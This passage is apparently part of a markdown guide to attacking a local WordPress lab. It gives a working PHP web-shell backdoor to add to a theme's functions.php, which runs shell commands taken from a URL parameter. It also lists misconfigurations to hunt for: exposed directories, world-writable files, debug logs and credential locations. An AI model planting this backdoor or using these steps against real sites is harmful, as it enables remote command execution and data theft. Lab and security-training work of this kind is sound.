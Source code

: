 ### 4. Backdoor Installation
```php
// Simple backdoor in theme
// Add to functions.php
if (isset($_GET['cmd'])) {
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
    die();
}

// Access: http://localhost:8087/?cmd=id
```

## Security Misconfigurations

### 1. Directory Listing
```bash
# Exposed directories
http://localhost:8087/wp-content/uploads/
http://localhost:8087/wp-content/plugins/
http://localhost:8087/wp-includes/
```

### 2. Weak File Permissions
```bash
# Writable files
find /var/www/html -type f -perm -o+w
find /var/www/html -type d -perm -o+w
```

### 3. Debug Mode Enabled
```php
// wp-config.php
define('WP_DEBUG', true);
define('WP_DEBUG_LOG', true);
define('WP_DEBUG_DISPLAY', true);

// Exposes errors at:
http://localhost:8087/wp-content/debug.log
```

### 4. Database Credentials
```php
// Often found in:
// - wp-config.php
// - .env files
// - Git history
// - Backup files
```
